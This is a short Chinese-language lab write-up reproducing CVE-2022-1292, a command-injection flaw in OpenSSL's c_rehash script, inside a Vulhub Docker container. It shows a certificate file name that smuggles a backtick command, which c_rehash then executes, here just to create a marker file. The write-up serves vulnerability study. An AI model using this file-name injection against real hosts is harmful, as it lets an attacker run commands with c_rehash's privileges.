

# OpenSSL命令注入漏洞（CVE-2022-1292）

OpenSSL 中的c_rehash存在命令注入, 允许以c_rehash脚本的权限执行命令。

受影响版本有：

+ 3.0.0 <= OpenSSL <= 3.0.2
+ 1.1.1 <= OpenSSL <= 1.1.1n
+ 1.0.2 <= OpenSSL <= 1.0.2zd

测试环境选取 VulHub 已存在的 `1.1.1m` 版本

参考链接：

+ <https://cve.report/CVE-2022-1292>
+ <https://xz.aliyun.com/t/11703>

## 漏洞环境

执行如下命令启动一个 server：

```
docker-compose up -d
```

## 漏洞复现

漏洞复现通过创建文件来证明命令注入成功执行

启动漏洞环境后，通过 `bash` 进入漏洞环境容器内：

```
docker-compose exec ssl bash 
```

执行

```
mkdir test && cd test
echo "-----BEGIN CERTIFICATE-----" > "1.crt\`touch crack\`"
ls 
```



然后执行

```
c_rehash .
```

发现`crack`文件成功创建。命令已执行


